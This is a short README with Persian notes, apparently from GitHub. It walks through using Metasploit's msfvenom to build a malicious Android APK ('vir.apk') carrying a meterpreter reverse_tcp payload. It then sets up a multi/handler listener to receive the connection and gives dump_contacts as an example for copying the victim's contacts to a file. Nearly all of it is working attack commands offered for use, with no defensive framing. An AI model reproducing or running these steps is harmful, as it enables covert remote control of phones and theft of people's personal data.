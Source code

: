 # Android-MetaSploit-Sade

┌──(root㉿kali)-[~]   
  
1) msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk

{{{{ * = ifconfig      **= پورت دلخواه }}}}

2) msfconsole


3) use exploit/multi/handler


4) set payload android/meterpreter/reverse_tcp


5) options


6) set LHOST *


7) set LPORT **


8) options   رو بزنیم میبینیم که دو مورد بالا ست شدن options مجدد


9) exploit


10) help  راهنمای اسکریپت باز می شود


---------------------------------------------------------------------------
example : برای مخاطبین : dump_contacts -o /home/kali/Desktop/contact.txt

